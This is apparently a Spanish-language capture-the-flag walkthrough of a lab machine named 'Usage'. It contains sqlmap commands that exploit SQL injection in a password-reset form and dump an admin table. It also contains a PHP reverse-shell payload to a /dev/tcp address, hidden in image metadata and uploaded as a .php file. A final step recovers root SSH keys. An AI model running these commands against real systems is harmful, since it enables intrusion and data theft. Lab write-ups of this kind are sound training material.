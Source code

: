 ```yaml
---
tags:
  - Usage
---
```


# Usage
## Etapa de escaneo
Se realizo un escaneo básico al sistema para detectar rápidamente lo necesario

![imagen](Anexos/Pastedimage20240611140341.png)

![imagen](Anexos/Pastedimage20240611140119.png)

![imagen](Anexos/Pastedimage20240611140512.png)

Con esto concluimos que sera explotación web, pues todo lo que se encontró indica estar en web.

---
## Etapa de exploración web
Al investigar un poco por la web, me doy cuenta que pudiera existir un método para quizá no acceder pero si ver usuarios desde la "BD" con un intento de "Sql Injection".

![imagen](Anexos/Pastedimage20240611140950.png)

Evidentemente por comodidad, haremos el secuestro del post desde burpsuite, que usaremos posteriormente para el ataque "Sql Injection", todo desde la sección "Restaurar contraseña":

![imagen](Anexos/Pastedimage20240611141302.png)

---
## Etapa de ataque "Sql Injection"
Interceptamos el "POST" con BurpSuite:

![imagen](Anexos/Pastedimage20240611141620.png)

Guardamos ese "POST" en un archivo para usarlo con "Sqlmap" y utilizamos el siguiente comando:

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
~~~

Una ves que logramos tener acceso, procedemos entonces a la enumeración de datos en la BD:

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 -D usage_blog --tables
~~~

~~~
sqlmap -r POST.txt -p email --level 5 --risk 3 --batch --threads 10 -D usage_blog -T user_admins --dump
~~~

---
## Etapa de exploración web para explotación
Ahora que ya tenemos acceso al dashboard, notamos que en "settings" existen datos de entrada de imágenes y poco más, aquí realmente podemos intuir que hay una forma de tener acceso remoto pero no de una forma común, debido a que la entrada de datos es para imágenes, así que tendremos que tocar los meta datos de una imagen "jpg" e introducir desde ahí la "revershell".

~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.14/1234 0>&1'"); ?>
~~~

Colocamos el comando anterior en los meta datos de una imagen y procedemos a subirla al servidor, una vez que el servidor la obtenga solo es cuestión de refrescar la página para que la imagen se ejecute en el servidor

![imagen](Anexos/Pastedimage20240613173358.png)

Evidentemente hacemos unos retoques a la entrada de datos para que el servidor los acepte, como por ejemplo, que acepte cualquier tipo de archivo de imágenes en caso de que no estés seguro de tener una imagen ".jpg", cambiamos el nombre de nuestro archivo "php.jpg" por "php.jpg.php" para que se envié como un ".php".

---
## Etapa de exploración del sistema
Notamos que hay una herramienta dentro del sistema que si ejecutamos con permisos elevados de privilegios, obtendremos las llaves del ssh root o "id_rsa" que sera nuestro acceso remoto para root, una vez explotada esta "vulnerabilidad" ya tenemos acceso a todo.